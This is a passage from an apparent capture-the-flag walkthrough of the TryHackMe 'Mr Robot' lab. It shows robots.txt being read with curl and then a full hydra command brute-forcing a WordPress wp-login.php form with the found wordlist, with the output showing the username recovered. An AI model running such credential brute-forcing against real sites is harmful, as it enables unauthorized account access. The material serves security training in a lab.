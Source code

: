 ```
┌──(Hades㉿10.11.32.198)-[2.7:33.3]~
└─$ curl http://10.10.38.89/robots.txt                                                                         
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Go to file `fsocity.dic`, It seem like a directory, may I can use it to brute force wp-admin password.

```
┌──(Hades㉿10.11.32.198)-[2.8:34.4]~
└─$ curl http://10.10.38.89/fsocity.dic
true
false
wikia
from
the
now
Wikia
extensions
<snip>
```

## Foothold

### Brute force WP-Admin

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/tryhackme/mrrobot)

At Inspect Element of Fire Fox, I can get the Request Payload for hydra to brute force.

`log=admin&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.38.89%2Fwp-admin%2F&testcookie=1`

![](images/3.png)

First, based on server's response, I brute force wp-admin's username with hydra and `fsocity.dic` directory. The username is `Elliot`.

```
┌──(Hades㉿10.11.32.198)-[3.5:35.2]~/walkthrough/tryhackme/mrrobot
└─$ hydra -L fsocity.dic -p admin 10.10.38.89 http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.38.89%2Fwp-admin%2F&testcookie=1:Invalid username' -I -t 64
<snip>
[DATA] attacking http-post-form://10.10.38.89:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.38.89%2Fwp-admin%2F&testcookie=1:Invalid username
[80][http-post-form] host: 10.10.38.89   login: Elliot   password: admin
<snip>
```
